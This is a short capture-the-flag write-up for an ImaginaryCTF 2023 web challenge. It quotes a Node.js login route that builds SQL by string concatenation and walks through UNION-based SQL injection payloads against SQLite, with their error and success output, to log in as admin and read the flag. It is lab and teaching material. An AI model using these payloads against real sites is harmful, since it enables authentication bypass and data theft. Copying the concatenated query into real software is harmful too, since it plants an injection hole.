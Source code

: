 # Imaginary CTF 2023
My writeup for imaginary CTF 2023. Use as learning process. Focusing more in web and pwn challenge.

## WEB
### Challenge Name
**Description**
I asked ChatGPT to make me a website. It refused to make it vulnerable so I added a little something to make it interesting. I might have forgotten something though...

**Solution**
Below code can be read in `/app.js` where it happen to be SQL Injection in `/login`. To gain /flag we must have access as admin.
```
app.get('/flag', (req, res) => {
  if (req.session.username == "admin") {
    res.send('Welcome admin. The flag is ' + fs.readFileSync('flag.txt', 'utf8'));
  }
  else if (req.session.loggedIn) {
    res.status(401).send('You must be admin to get the flag.');
  } else {
    res.status(401).send('Unauthorized. Please login first.');
  }
});

--snippet--

app.post('/login', (req, res) => {
  const username = req.body.username;
  const password = req.body.password;

  db.get('SELECT * FROM users WHERE username = "' + username + '" and password = "' + password+ '"', (err, row) => {
    if (err) {
      console.error(err);
      res.status(500).send('Error retrieving user');
```
The sqlinjection might be look like .

```
admin : admin'or1=1
SELECT * FROM users WHERE username = "' admin'" and password = "'admin'or1=1"
```
The above payload are unsuccessfully. 

The application show error when we try to put `"`. We will try to use Error Based Attack to Enumerate Database. Since this website using **sqlite3** version. The payload we look something like `" UNION SELECT 1, "admin", "hello" --`

```
PAYLOAD TESTING
" union select * from sqlite_master /*
Error retrieving user
> SELECTs to the left and right of UNION do not have the same number of result columns

" UNION SELECT 1, "admin", "whyme" --
OR
" union select 1,1,1 from sqlite_master /*
Login Success
```
Request `/flag` to get the flag.
